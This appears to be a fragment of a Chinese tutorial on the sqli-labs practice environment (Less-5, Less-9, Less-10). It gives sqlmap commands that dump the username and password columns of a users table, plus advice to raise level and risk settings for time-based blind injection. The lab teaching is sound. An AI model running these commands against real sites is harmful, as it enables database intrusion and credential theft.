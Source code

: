 
#### 基础操作

> 
<h3>3.5、第五步：爆数据</h3>
<h4>命令：</h4>
sqlmap.py -u url -D DB -T TBL -C "COL1,COL2" --dump --batch
<hr/>
<h4>基础操作：</h4>
python sqlmap.py -u 'http://localhost:8080/sqli-labs-master/Less-5/?id=1' -D security -T users -C "username,password" --dump --batch

 

 <img alt="" height="591" src="https://img-blog.csdnimg.cn/5a9fd8e775c24f8496e851303cd31042.png" width="1200"/>
 


#### 基础操作：

---


---


## 四、Less9（GET - Blind - Time Based - Single Quotes）

Less1-9关一样

都无需设置风险级别和测试级别

---


---


## 五、Less10（GET - Blind - Time Based - double Quotes）

> 
需设置风险级别和测试级别了
--level=5 --risk=3（最高级别）

在每一步后面都加上风险级别和测试级别
就能跑出来了

 

